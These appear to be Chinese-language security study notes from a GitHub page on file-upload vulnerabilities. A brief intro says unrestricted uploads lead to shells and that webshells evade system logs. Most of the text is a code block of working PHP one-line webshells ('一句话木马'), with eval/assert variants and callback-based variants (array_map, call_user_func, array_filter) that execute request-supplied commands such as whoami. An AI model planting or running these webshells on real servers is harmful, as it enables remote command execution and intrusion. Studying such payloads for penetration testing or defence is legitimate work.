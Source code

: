 # 文件上传

参考链接：[文件上传漏洞...](https://blog.csdn.net/qq_43390703/article/details/104858705?fromshare=blogdetail&sharetype=blogdetail&sharerId=104858705&sharerefer=PC&sharesource=weixin_51334923&sharefrom=from_link)



本质上就是服务器端没有对用户上传的东西进行限制或者上传后的处理逻辑做的不够安全，导致后续弹shell等危险后果。



WebShell隐蔽性高，不会留下系统日志，只在web日志中留下数据记录





## 一句话木马



常见的一句话木马如下：

### php：

```php
##PHP：
<?php @eval($_POST['r00ts']);?> 
<?php phpinfo();?>
<?php @eval($_POST[cmd]);?>
<?php @eval($_REQUEST[cmd]);?>
<?php assert($_REQUEST[cmd]); ?>
<?php //?cmd=phpinfo() @preg_replace("/abc/e",$_REQUEST['cmd'],"abcd"); ?>
<?php 
//?cmd=phpinfo();
$func =create_function('',$_REQUEST['cmd']);
$func();
?>

<?php
//?func=system&cmd=whoami
$func=$_GET['func'];
$cmd=$_GET['cmd'];
$array[0]=$cmd;
$new_array=array_map($func,$array);
//print_r($new_array);
?>

<?php 
//?cmd=phpinfo()
@call_user_func(assert,$_GET['cmd']);
?>

<?php 
//?cmd=phpinfo()
$cmd=$_GET['cmd'];
$array[0]=$cmd;
call_user_func_array("assert",$array);
?>

<?php 
//?func=system&cmd=whoami
$cmd=$_GET['cmd'];
$array1=array($cmd);
$func =$_GET['func'];
array_filter($array1,$func);
?>
```